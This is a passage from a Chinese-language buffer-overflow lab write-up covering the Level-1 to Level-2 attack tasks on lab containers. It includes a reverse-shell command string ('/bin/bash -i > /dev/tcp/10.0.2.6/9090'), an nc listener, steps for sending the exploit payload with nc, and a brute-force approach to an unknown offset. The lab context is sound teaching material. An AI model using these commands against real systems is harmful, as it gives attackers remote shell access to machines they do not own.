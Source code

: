 ```shell
   "/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1           *"
```

启动新 terminal ，执行监听

```bash
$ nc -lnv 9090
```

在原来的 terminal 中再次执行

```bash
$ ./exploit.py
$ cat badfile | nc 10.9.0.5 9090
```

可以看到获得了权限

<img src="https://i.loli.net/2021/07/10/U92VtaTJSliGMED.png" alt="image-20210710231948031" style="zoom:50%;" />

# Task 3: Level-2 Attack

本 task 重点在于处理不知道大小的 buffer。

解决方法很简单：不知道 offset，那就挨个试一遍。

同样的，我们先 `echo hello`

```bash
$ echo hello | nc 10.9.0.6 9090
^C
```

<img src="https://i.loli.net/2021/07/10/DSCIGdHTmzhQowZ.png" alt="image-20210710234038425" style="zoom:50%;" />

修改 exploit.py

<img src="https://i.loli.net/2021/07/10/MRPhdSKBXqZNrV5.png" alt="image-20210710234327830" style="zoom:50%;" />

其中，

- ret 应当大于等于 `0xffffd708`+308，但应当保证 shellcode 都在 payload 内
- offset 为 100-300 之间的某个值

然后执行

```bash
$ ./exploit.py
$ cat badfile | nc 10.9.0.6 9090
```

得到了结果

<img src="https://i.loli.net/2021/07/10/H9SXfP85rZDYuGV.png" alt="image-20210710234253743" style="zoom:50%;" />

# Task 4: Level-3 Attack
